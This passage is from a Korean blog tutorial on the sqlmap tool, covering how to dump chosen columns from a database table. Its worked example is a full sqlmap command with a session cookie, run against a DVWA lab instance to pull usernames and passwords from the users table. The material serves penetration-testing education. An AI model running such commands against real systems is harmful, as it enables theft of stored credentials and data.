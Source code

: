 
![image](https://github.com/ICTIS-Cert-System-Project/ICTIS-Cert-System/assets/165739282/fa9a69d3-b889-41d3-833c-e056650cdbf3)

< 명령어 입력 >


![image](https://github.com/ICTIS-Cert-System-Project/ICTIS-Cert-System/assets/165739282/0a33dcfa-a009-4d99-88b9-8378ef08987d)

< 결과값 출력 >



( 6 ) 지정된 DB 에 속한 테이블의 특정 컬럼 덤프하기

기본 명령어 형식 : sqlmap -u URL -p 파라미터명 (선택사항 --cookie=쿠키값) -D 데이터베이스명 -T 테이블명 -C "컬럼명(복수 가능)" --dump
사용예 : sqlmap -u "http://192.168.100.131/dvwa/vulnerabilities/sqli/?id=koromoon&Submit=Submit#" -p id --cookie="security=low; PHPSESSID=300fgn00aunr01ejf32u9io0u6; acopendivids=swingset,jotto,phpbb2,redmine; acgroupswithpersist=nada" -D dvwa -T users -C "user,password" --dump

명령어 입력 후 도중에 Y 나 Enter 눌러서 진행함.​
덤프된 파일은 sqlmal 툴 -> output 폴더 -> IP or URL 폴더 -> dump 폴더 안에 생성됨.
(ex. /home/kali/.sqlmap/output/192.168.100.131/dump)

![image](https://github.com/ICTIS-Cert-System-Project/ICTIS-Cert-System/assets/165739282/a9492e7f-58ba-450e-bdfa-08d53f0c5e04)

< 명령어 입력 >


![image](https://github.com/ICTIS-Cert-System-Project/ICTIS-Cert-System/assets/165739282/532ae9ad-86d2-4bfa-b5e4-15b18b9aec55)

< 결과값 출력 >



============================================================

본 게시물은 KOROMOON 님께서 작성하였으며 CCL (Creative Commons License) 에서 "저작자표시-비영리-동일조건변경허락" 이용조건으로 자료를 이용하셔야 합니다.

Share This: Facebook  Twitter  Google+  Pinterest  Linkedin
YOU MAY ALSO LIKE
JSON 기반 SQL Injeciton 공격을 악용한 WAF 우회 공격 (Palo Alto Networks, Amazon Web Services, Cloudflare, F5 및 Imperva 의 5개 주요 공급업체 포함)
[CVE-2022-41852] JXPath 라이브러리 원격코드 실행 취약점 ([CVE-2022-41852] JXPath Library Remote Code Execution Vulnerability)
[CVE-2022-40684] Fortinet 제품 인증 우회 취약점 ([CVE-2022-40684] Fortinet Application Authentication Bypass Vulerability)
[CVE-2022–31656] VMware 제품 인증 우회 취약점 ([CVE-2022–31656] VMware Products Auth Bypass Vunlerability)
 NEWER ARTICLE
404 Not Found 페이지를 이용한 웹쉘 숨기기
OLDER ARTICLE 
LAN Messenger (로컬 네트워크에서 서버나 인터넷없이 사용할 수 있는 무료 메신저 프로그램)
댓글 없음:

SEARCH
Enter keyword...

FOLLOW US
KOROMOON
Twitter
KOROMOON
Facebook
KOROMOON
YouTube
CATEGORIES
BIBLE(5)
CRYPTOGRAPHY(8)
ECONOMY(7)
ETC(23)
FORENSIC(2)
GAME(11)

[koromoonlink]: https://koromoon.blogspot.com/2020/07/sqlmap.html "Go koromoon"